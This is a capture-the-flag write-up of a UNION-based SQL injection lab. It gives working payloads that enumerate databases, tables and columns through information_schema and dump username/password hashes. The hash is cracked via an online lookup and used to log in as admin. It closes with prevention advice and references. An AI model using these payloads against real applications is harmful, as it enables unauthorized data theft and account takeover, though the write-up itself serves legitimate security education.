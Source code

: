 # SQL injection

## Vulnerability

* List databases (as in `SHOW DATABASES`)
```sql
null union select null,schema_name from information_schema.schemata
```
* List tables in the `Member_Brute_Force` (hex 
`0x4d656d6265725f42727574655f466f726365`) database
```sql
null union select null,table_name from information_schema.tables where
 table_schema=0x4d656d6265725f42727574655f466f726365
```
* List columns in `db_default` table
(`db_default` <-> hex `0x64625f64656661756c74`)
```sql
null union select null,column_name from information_schema.columns where table_name=0x64625f64656661756c74
```
* Select `username` and `password` columns in `Member_Brute_Force` table
```sql
null union select username,password from Member_Brute_Force.db_default
```
* See output
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```
* Find corresponding string for this hash https://md5hashing.net/hash/md5/3bf1114a986ba87ed28fc1b5884fc2f8
* MD5 `3bf1114a986ba87ed28fc1b5884fc2f8` <-> `shadow`
* Sign in with either `admin` or `root` as username and `shadow` as password
* Get the flag

## Attack

A SQL injection attack consists of insertion or “injection” of a SQL query via 
the input data from the client to the application. 

## Fix
* Use prepared Statements (with Parameterized Queries)
* Avoid dynamically construct a SQL query. Don't simply concatenate strings
 including user inputs to construct SQL query
* Validate parameters from the client 

## References
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
https://dev.mysql.com/doc/refman/5.7/en/information-schema-schemata-table.html
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
